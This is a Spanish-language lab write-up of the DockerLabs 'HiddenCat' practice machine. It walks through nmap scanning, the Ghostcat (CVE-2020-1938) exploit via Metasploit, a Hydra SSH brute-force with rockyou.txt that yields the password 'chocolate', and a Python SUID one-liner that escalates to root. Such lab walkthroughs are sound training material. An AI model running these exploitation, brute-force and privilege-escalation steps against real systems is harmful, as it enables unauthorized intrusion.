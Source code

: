 ```yaml
---
layout: post
title: Maquina HiddenCat
subtitle: DockerLabs
header-img: img/in-post/2020-10-07/upload-dl.png
header-style: text
catalog: true
tags:
  -  DockerLabs
  -  Fuerza Bruta
  -  Binarios UNIX
  -  Metasploit
  -  Reverse Shell
---
```


#### **Información**
- **Máquina:** HiddenCat
- **Plataforma:** [DockerLabs](https://dockerlabs.es/)
- **Creador:** El Pingüino de Mario
- **SO:** Linux
- **Dificultad:** `Facil`{:.success}

#### **Configuración Entorno**
Primeramente, como siempre para configurar las máquinas de DockerLabs, exportamos los ficheros auto_deploy.sh y en este caso hiddencat.tar.
Para ejecutarlo utilizamos el siguiente comando:
```bash
sudo bash auto_deploy.sh hiddencat.tar
```
![Image 1](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img1.png)

**auto_deploy.sh:** este archivo se encarga de desplegar la máquina mediante docker y, una vez presionamos `ctrl+c`{:.info} pasa a un proceso de borrado, todo automático, sin necesidad de tener conocimientos de docker.

**hiddencat.tar:** contiene todo el contenido de la máquina docker; es el corazón, donde está la máquina víctima.

#### **Reconocimiento**
Lo primero que realizamos es lanzar un ping contra la IP de la máquina para comprobar que tenemos conectividad.
```bash
ping -c 1 172.17.0.2
```
![Image 2](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img2.png)

Podemos observar que el ttl es de 64, por tanto, como norma general podemos afirmas que se trata de una maquina linux.
Una vez comprobada la conectividad, iniciaremos un escaneo con nmap, para detectar puertos abiertos y lo almacenaremos en un fichero llamado scan, con el siguiente comando:
```bash
nmap -p- --open -sV -sC -sS --min-rate=5000 -vvv -n -Pn -oN scan
```
- **-p-** --> Busqueda de puertos abiertos
- **--open** --> Enumera los puertos abiertos
- **-sS** --> Es un modo de escaneo rápido
- **-sC** --> Que use un conjunto de scripts de reconocimiento
- **-sV** --> Que encuentre la versión del servicio abierto
- **--min-rate=5000** --> Hace que el reconocimiento aun vaya más rápido mandando no menos de 5000 paquetes
- **-n** --> No hace resolución DNS
- **-Pn** --> No hace ping
- **-vvv** --> Muestra en pantalla a medida que encuentra puertos (Verbose)
![Image 3](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img3.png)
![Image 4](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img4.png)

Vemos que tiene abiertos los puertos **22 (SSH), 8080 y 8009**.
Gracias a los scrips de nmap nos detecta lo siguiente:
-	Puerto 22: `OpenSSH 7.9p1`{:.error}
-	Puerto 8009: `Apache Jserv (Protocol v1.3)`{:.error}
-	Puerto 8080: `Apache Tomcat 9.0.30`{:.error}

#### **Explotación**
Descartamos de momento atacar al puerto 22 ya que cuenta con una versión de OpenSSH no vulnerable, por tanto, investigamos el puerto 8009 que corre un Apache Jserv. Encontramos la siguiente referencia al respecto en [HackTriks](https://book.hacktricks.xyz/v/es/network-services-pentesting/8009-pentesting-apache-jserv-protocol-ajp), donde se detalla que versiones anteriores a 9.0.31, 8.5.51 y 7.0.100 de Apache Tomcat, si el puerto AJP está expuesto -como es el caso aquí, dado que tenemos la versión 9.0.30 y el puerto 8009 expuesto-, presentan una vulnerabilidad conocida como `Ghostcat`{:.info} (CVE-2020-1938).

En el propio HackTik encontramos un script en Python que permite explotar esta vulnerabilidad, yo he preferido buscarlo en `Metasploit`{:.info}.

Arrancamos Metasploit con el comando `msfconsole`{:.info}.
Una vez dentro buscamos los exploits que hagan referencia a Apache Jserv
```bash
msf6 > search exploit Apache Jserv
```
Encontramos el exploit `tomcat_ghostcat`{:.info}, lo seleccionamos.
```bash
msf6 > use 0
```
Y revisamos los parámetros necesarios para el exploit.
```bash
msf6 > show options
```
![Image 5](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img5.png)

Establecemos la IP de la maquina víctima y ejecutamos el exploit.
```bash
msf6> set RHOST 172.17.0.2
msf6> exploit
```
![Image 6](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img6.png)

Podemos ver que tenemos un usuario llamado Jerry.
Teniendo el usuario podríamos tratar de aplicar fuerza bruta para lograr acceso por SSH a la maquina víctima, ya que como nos mostró el escaneo de nmap, contamos con el Puerto 22 abierto.
Realizamos el ataque con Hydra al usuario Jerry utilizando el diccionario de contraseñas comunes `rockyou.txt`{:.info}.
```bash
hydra 172.17.0.2 ssh -s 22 -l jerry -P /usr/share/wordlists/rockyou.txt -f -I -t 64
```
![Image 7](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img7.png)

Y efectivamente nos encuentra la contraseña `chocolate`{:.success} :chocolate_bar: para el usuario Jerry
Accedemos por SSH a la maquina víctima.

![Image 8](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img8.png)
Una vez dentro trato de ejecutar sudo -l para listar los privilegios que tiene el usuario “Jerry” en el sistema mediante el comando sudo. Esto significa que muestra qué comandos puede ejecutar el usuario Jerry con privilegios elevados utilizando sudo, así como cualquier restricción aplicada a esos privilegios.
Pero nos indica que sudo no está instalado en el sistema, por tanto, pruebo a buscar los archivos con permisos SUID en el sistema.
```bash
jerry@a8385f5ecbd3:~$ find / -perm -4000 2>/dev/null
/bin/ping
/bin/su
/bin/umount
/bin/mount
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/perl5.28.1
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/perl
/usr/bin/chsh
/usr/bin/python3.7
/usr/bin/python3.7m
```
Consultamos [http://https://gtfobins.github.io/](http://https://gtfobins.github.io/) para encontrar una manera de elevar privilegios con Python. Luego, ejecutamos el siguiente comando:
```bash
/usr/bin/python3.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
![Image 9](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img9.png)

Y efectivamente, ya somo `root`{:.error}, por lo tanto, `¡¡¡maquina vulnerada!!!`{:.success} :sunglasses::sunglasses::sunglasses:

#### **Eliminación del entorno**

Para borrar la máquina solo debemos ir a la consola donde lo desplegamos y presionar `ctrl+c`{:.info} y eliminaría y borraría todo rastro de la máquina víctima en nuestro sistema LINUX.

![Image 10](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img10.png)

`¡¡¡Espero que os haya gustado y nos vemos en la próxima!!!`{:.success}
